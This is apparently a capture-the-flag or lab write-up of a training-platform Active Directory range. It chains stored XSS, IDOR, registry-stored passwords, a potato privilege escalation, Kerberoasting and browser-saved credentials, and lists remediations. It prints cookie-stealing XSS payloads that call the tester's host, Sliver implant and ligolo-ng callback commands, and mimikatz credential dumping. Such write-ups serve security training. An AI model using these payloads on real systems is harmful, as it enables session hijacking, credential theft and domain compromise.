# Summary

_BitStream_ is an easy rated machine range on the _HackSmarter_ platform. It includes 5 hosts, 4 of which within an AD environment. Unlike an OSCP exam structure,  some machines are targets mostly for enumeration rather than exploitation and local privilege escalation, on the path to compromise the domain controller.
In order to fully compromise the target hosts, one must exploit/abuse multiple vulnerabilities/misconfigurations:

- Stored XSS in web application feature - allowed interception of user's session cookie. To remediate, implement input sanitization, output encoding and configure session cookies with security attributes (e.g. `HttpOnly`).
- IDOR vulnerability in an internal email inbox - allowed accessing an otherwise inaccessible email containing cleartext credentials. To remediate and harden, assign an unpredictable complex identifier and enforce server-side access controls. 
- Cleartext domain credentials stored within _Autologon_ registry key and an automation script - facilitated the compromise of two domain users, the latter being a privileged user. To remediate and harden, remove all stored cleartext passwords, use a secure secret and password manager for scripts and automation.
- `SeImpersonatePrivilege` assigned to a service account - allowed privilege escalation on one of the domain-joined hosts. To remediate, remove the privilege from accounts who don't explicitly need it, apply least privilege principle.
- Multiple instances of weak and easily-cracked passwords - allowed to crack one password hash but at least two more accounts had weak and crackable passwords which makes them susceptible to password attacks. To remediate, enforce a password policy that requires passwords to be sufficiently long and complex.
- Browser-saved password accessible from a workstation - allowed compromise of an additional domain user. To remediate, use approved password managers and prohibit browser-based password storage.
- Excessive ACLs - allowed full control on a domain user and DCSync over the domain, leading to full compromise. To remediate, adjust ACLs where they are needed and remove them where they are excessive, monitor ACLs periodically to ensure they are assigned appropriately. 

> [!note]
> The list above reflects only the immediate causes, vulnerabilities, misconfigurations, etc. It is not exhaustive by any account and can be dissected more in-depth

## Attack Path Graphical Summary




---
# Introduction

BitStream is a cloud storage provider that hosts sensitive data for enterprise clients. They have segmented their internal Active Directory environment (bitstream.hsm) and requested a full penetration test of their environment.

You have been provided with VPN access to their Active Directory environment.

## Network Diagram and Host Breakdown



- Added the target network hosts as entries in my local hosts file:



---
# _WEB (10.0.0.5)_

## Full TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -v -p- --min-rate 3000 -T4 -sS -n -Pn -oN Scans/WEB_TCP_discovery WEB
ports=$(grep open Scans/WEB_TCP_discovery | cut -d'/' -f1 | paste -sd,)
sudo nmap -p$ports -v -sC -sV -sT -T4 -oN Scans/WEB_TCP_service WEB
Nmap scan report for WEB (10.0.0.5)
Host is up (0.098s latency).
rDNS record for 10.0.0.5: web.bitstream.hsm

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c5:f2:fe:fb:c0:0a:36:84:11:a5:c2:6a:46:9f:a4:95 (ECDSA)
|_  256 d8:ef:9d:4c:b2:fb:b5:d6:2e:02:56:27:c4:0c:a4:6d (ED25519)
80/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Notes on Scan Results

- Target host's OS is Ubuntu.
- _OpenSSH 9.6p1_ accessible over default port 22.
- _Node.js Express framework_ web application accessible over port 80.
---
## _Node.js Express_ Web Application (80/TCP)

### Tech Stack
#### _cURL_ & _whatweb_

The following `curl` command was used to retrieve HTTP headers from the target web server. Afterwards, the following  `whatweb` command was used to identify web technologies running on the target:



### Website Browsing

Browsing to `http://web.bitstream.hsm/` leads to the following web page:



Hitting _Get A Quote_ forwards to `http://web.bitstream.hsm/quote`:



Filling the form's fields with garbage and intercepting the request with Burp:

- POST request:

```http
POST /quote HTTP/1.1
Host: web.bitstream.hsm
[...]
Referer: http://web.bitstream.hsm/quote
[...]
name=adasd&email=asdfsd%40sfdgsv.com&message=asdfsdfs
```

- Response

```http
HTTP/1.1 302 Found
X-Powered-By: Express
Location: /quote?success=true
[...]
Content-Type: text/html; charset=utf-8
Content-Length: 48
[...]
<p>Found. Redirecting to /quote?success=true</p>
```

Once forwarded, I get a feedback that the request will be reviewed:



The above feedback, is an indication that XSS might be possible in this context - specifically [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored).

### Stored XSS Exploitation

Trying a blind XSS data grabber that I've found on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#tips), I paste this within the body of the quote:

```js
<script>document.location='http://192.168.211.2:8000/XSS/grabber.php?c='+document.domain</script>
```

Submitting the request triggers the payload when a reviewer opens the message, causing a callback. The callback is an attempt to reach a resource on my local host - since I pasted the payload without altering its contents aside from my IP address, it obviously did not reach the requested resource as I named it arbitrarily and it does not exist within the directory:



Using a cookie intercepting payload, also from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber):

```js
<script>new Image().src="http://192.168.211.2:8000/cookie.php?c="+document.cookie;</script>
```



As seen above, I manage to intercept the `session_id` value. Most likely, it belongs to the user who reviewed the submission.

At this point, I can add the cookie to the browser manually:



While refreshing the session within the login page (`http://web.bitstream.hsm/login`) did not result in granting any access to a resource. Although it is the correct vector, it needs to be applied on a different page.

### Content Discovery

Earlier I've executed _feroxbuster_ to enumerate pages and files on the web application:

```bash
feroxbuster -u 'http://web.bitstream.hsm/' -w /usr/share/wordlists/dirb/common.txt
feroxbuster -u 'http://web.bitstream.hsm/' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

I did not detect anything of value at first glance. Viewing it now, I see a redirect from `/portal` to `/login`:



Now, with the cookie, I browse to `http://web.bitstream.hsm/portal` and I am logged in as `joey`:



### IDOR Exploitation

The portal contains an _Internal Inbox_:



The conversations disclose potential usernames:

```
joey
tommy
jon
```

Going through the inbox entries, I notice that they're reflected in the URL - an [IDOR vulnerability](https://portswigger.net/web-security/access-control/idor).



Browsing through, I reach message _#27_, where cleartext credentials for `sql_svc` are disclosed:



---
# _SQL (10.0.1.7)_

## Full TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -v -p- --min-rate 3000 -T4 -sS -n -Pn -oN Scans/SQL_TCP_discovery SQL
ports=$(grep open Scans/SQL_TCP_discovery | cut -d'/' -f1 | paste -sd,)
sudo nmap -p$ports -v -sC -sV -sT -T4 -oN Scans/SQL_TCP_service SQL -Pn

Nmap scan report for SQL (10.0.1.7)
Host is up (0.099s latency).
rDNS record for 10.0.1.7: sql.bitstream.hsm

PORT     STATE SERVICE    VERSION
1433/tcp open  tcpwrapped
3389/tcp open  tcpwrapped
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=SQL.bitstream.hsm
| Issuer: commonName=SQL.bitstream.hsm
[...]
5985/tcp open     tcpwrapped
```

### Notes on Scan Results

- MSSQL accessible over default port 1433.
- RDP and WinRM accessible over default ports 3389 and 5985. 

## Initial Foothold
### Preliminary Enumeration

Instinctively, I will test whether `sql_svc` can authenticate to the MSSQL instance on the target host:



Above, testing the authentication on _netexec_ **fails**, also when attempted with `--local-auth`. However, I did manage to authenticate using _impacket-mssqlclient_:



As presented above, I now have command execution on the session, leveraging `xp_cmdshell`. Next, I will simply paste a base64 encoded PowerShell reverse shell payload (_PowerShell #3 (Base64)_ from revshells), execute it and receive a connection on my _netcat_ listener, as below:



Having this reverse shell will allow me to execute commands in an easier manner. 

## Privilege Escalation
### File System Enumeration

Enumerating the configuration value of _Winlogon_ under the HKLM hive:

```powershell
reg query "HKLM\SOFTWARE\microsoft\windows nt\currentversion\winlogon"
```

Within the output, I can notice a cleartext password for `bob` within the context of the domain (_bitstream.hsm_):



These are the first domain credentials I managed to gather. 

### Local Privilege Escalation Abusing _SeImpersonatePrivilege_

Reviewing `sql_svc`'s privileges, I notice it has the _SeImpersonatePrivilege_:



_SeImpersonatePrivilege_ is a privilege that can be used to perform a _Potato Attack_ and escalate privilege. For that purpose, I will use the GodPotato binary from BeichenDream's [GitHub repository](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20). 

Transferring the binary to the target host:



For the sake of my _Sliver C2_ practice, I will generate an implant rather than pairing _GodPotato_ with an _nc_ binary. When executed in conjunction, I will get a Sliver session as `NT AUTHORITY\SYSTEM`.

Within Sliver, generating the implant and initializing a listener:

```
[127.0.0.1] sliver > generate --mtls 192.168.211.2:443 --save shell.exe --os windows --arch amd64
[127.0.0.1] sliver > mtls --lport 443
```



Transferring the implant from my local host to the _SQL_ host, followed by executing _GodPotato_ in conjunction with the implant:



Shortly after execution, I receive a connection on _Sliver_ and can confirm command execution as `NT AUTHORITY\SYSTEM`:



## Post Compromise Enumeration
### Credential Harvesting

For the sake of fully compromising the host, I will try and get a hold of its local administrator's credentials. For that, I will use _mimikatz_ from _Sliver_:

```
[127.0.0.1] sliver (SYSTEMonSQL) > mimikatz privilege::debug
[127.0.0.1] sliver (SYSTEMonSQL) > mimikatz lsadump::sam
```

As seen below, I now harvest the local administrator's NTLM hash - this will allow me to authenticate as `administrator` assuming Pass-the-Hash (PtH) is possible:



Authenticating (PtH) using the harvested credentials:



Confirming command execution as local `administrator`:



Having this manner of authentication enables me, at least for the time being, not to be dependent on the _Sliver_ session.

### Pivoting, Proxy and Tunneling

Confirming the host is indeed member of the domain:

```powershell
(Get-CimInstance -ClassName Win32_ComputerSystem).PartOfDomain
```



Now, I can start a `socks5` proxy from my _Sliver_ session and reach the domain controller (_DC01_) which is on another subnet, as shown below - I manage to confirm it is reachable by scanning port 88:



Next, I can try and enumerate the domain users, using _netexec_'s `--users-export`. Running the below command successfully also confirms that `bob` is a domain user, unlike `sql_svc` and therefore will enable me to enumerate in the domain context:

```bash
proxychains -q netexec smb DC01 -u 'bob' -p '[...]' --users-export Lists/DomainUsers.txt --smb-timeout 10
```



However, enumerating further with LDAP modules or different tools proved challenging via proxy. Instead, I set up a tunnel with _ligolo-ng_:

```bash
# Kali
sudo ip tuntap add user dact mode tun ligolo

sudo ip link set ligolo up

ligolo-ng-proxy -selfcert

# Target Host (SQL)
.\agent_win_amd64.exe -connect 192.168.211.2:11601 -ignore-cert


# Ligolo on Kali
ligolo-ng » INFO[0120] Agent joined.                                 id=0e99cdbff3cf name="SQL\\Administrator@SQL" remote="10.0.1.7:49793"
ligolo-ng » session
? Specify a session : 1 - SQL\Administrator@SQL - 10.0.1.7:49793 - 0e99cdbff3cf

[Agent : SQL\Administrator@SQL] » tunnel_start
INFO[0216] Starting tunnel to SQL\Administrator@SQL (0e99cdbff3cf) 

# Adding route to the interface
sudo ip route add 10.0.2.0/24 dev ligolo
```

Pinging the DC to confirm tunneling success:



---
# AD Enumeration

## Credentialed LDAP Enumeration

Having valid domain credentials allows me to enumerate the AD environment using _BloodHound_ ingestor. The output from this tool can help map relationships and identify attack paths visually. Having failed to execute _BloodHound_ python collectors - probably due to the tunneling as far as I can decipher, I will use _BloodyAD_ instead:

```bash
bloodyad --host DC01 -d 'bitstream.hsm' -u 'bob' -p '[...]' get bloodhound
```



Marking `bob` as owned, I move on to view some low-hanging fruit potential vectors. `eddie` is a Kerberoastable user:



Using _netexec_'s capability to Kerberoast `eddie`, adding an SPN to it and requests a ticket from TGS, returning `eddie`'s hashed password:



To crack the hash, I will use _hashcat_ on my bare-metal host:

```powershell
.\hashcat.exe -m 13100 -a 0 .\ToCrack\eddie_bitstream.txt .\rockyou.txt
```

The hash is cracked almost immediately:



Spraying the credentials against all hosts service by service, `eddie` can leverage RDP to start a remote session on _WKST_:



---
# _WKST (10.0.1.6)_

After starting a session on _WKST_ as `eddie`, I open the _Edge_ browser and within its settings I find an entry for a saved password:



Reviewing the entry, the saved password seems to belong to `luisa`, another domain user:

